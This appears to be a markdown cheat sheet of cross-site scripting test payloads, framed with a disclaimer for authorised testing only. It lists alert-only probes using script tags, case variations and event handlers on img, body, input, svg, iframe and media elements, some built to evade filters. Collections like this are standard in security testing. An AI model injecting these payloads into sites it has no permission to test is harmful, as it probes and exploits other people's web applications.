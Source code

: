 # XSS Payloads for Testing 🧪

**⚠️ Disclaimer**: These payloads are for educational and testing purposes only. Use only on systems you own or have explicit permission to test.

## Basic XSS Payloads

### Simple Alert Boxes
```html
<script>alert('XSS')</script>
<script>alert(1)</script>
<script>alert('XSS Vulnerability Found!')</script>
<script>alert(String.fromCharCode(88,83,83))</script>
```

### Different Script Tag Variations
```html
<ScRiPt>alert('XSS')</ScRiPt>
<script>alert('XSS');</script>
<script>alert("XSS");</script>
<script type="text/javascript">alert('XSS')</script>
```

## Event Handler Based XSS

### Image Tags
```html
<img src=x onerror=alert('XSS')>
<img src="javascript:alert('XSS')">
<img src=x onerror="alert('XSS')">
<img/src=x onerror=alert('XSS')>
<img src=x:alert(alt) onerror=eval(src) alt=XSS>
```

### Body Events
```html
<body onload=alert('XSS')>
<body onpageshow="alert('XSS')">
<body onfocus="alert('XSS')">
```

### Input Events
```html
<input type=text onmouseover=alert('XSS')>
<input onfocus=alert('XSS') autofocus>
<input onblur=alert('XSS') autofocus><input autofocus>
```

### Other Elements
```html
<svg onload=alert('XSS')>
<iframe onload=alert('XSS')></iframe>
<video><source onerror="alert('XSS')">
<audio src=x onerror=alert('XSS')>
<details ontoggle=alert('XSS')>
```
